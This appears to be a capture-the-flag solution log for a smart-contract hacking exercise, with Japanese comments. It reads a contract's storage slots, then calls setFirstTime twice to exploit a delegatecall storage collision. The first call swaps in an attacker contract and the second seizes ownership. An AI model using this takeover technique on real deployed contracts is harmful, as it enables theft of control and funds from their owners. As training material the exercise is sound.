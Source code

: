 >contract.address
'0x697bc131219881bc8a958b2ed3a6523fE9cb155e'

>await contract.owner()
'0x97E982a15FbB1C28F6B8ee971BEc15C78b3d263F'

>await contract.timeZone1Library() //slot zero 
'0x7Dc17e761933D24F4917EF373F6433d4a62fe3c5'

>await contract.timeZone2Library() // slot one 
'0xeA0De41EfafA05e2A54d1cD3ec8CE154b1Bb78F1'

>await web3.eth.getStorageAt(contract.address, 0, console.log)
'0x0000000000000000000000007dc17e761933d24f4917ef373f6433d4a62fe3c5' //matching slot zero 

>await web3.eth.getStorageAt(contract.address, 1, console.log)
'0x000000000000000000000000ea0de41efafa05e2a54d1cd3ec8ce154b1bb78f1'

>await web3.eth.getStorageAt(contract.address, 2, console.log)
'0x00000000000000000000000097e982a15fbb1c28f6b8ee971bec15c78b3d263f'

//deployしたpreservationAttack.solのContractをcopy //pay gas 
await contract.setFirstTime("0x6dda42d465Dc1b86938A25fe0f97fCdd830D3332")
//successed to change slot zeroの timeZone1Library address 
{tx: '0x2b6292d89110f2888771cb29fb4f7aaa892c3824bcd24a35d05f4116099b14f5', receipt: {…}, logs: Array(0)}

//hack the contract //setFirstTimeの数字はランダム
await contract.setFirstTime("86753099")
{tx: '0x1c04fe4c41039f401661ebcdf107c8de88966a61bf692dc8f5c73c1fe1460af2', receipt: {…}, logs: Array(0)}
logs: []
receipt: {blockHash: '0x464fed330b0c9936f6b96add03c090a1863a3dcdcfcd2bc5f1ba30182ee36d94', blockNumber: 10930374, contractAddress: null, cumulativeGasUsed: 2987620, effectiveGasPrice: '0x903e4e82', …}
tx: "0x1c04fe4c41039f401661ebcdf107c8de88966a61bf692dc8f5c73c1fe1460af2"
[[Prototype]]: Object

//successed changed owner by myself!!
await.contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'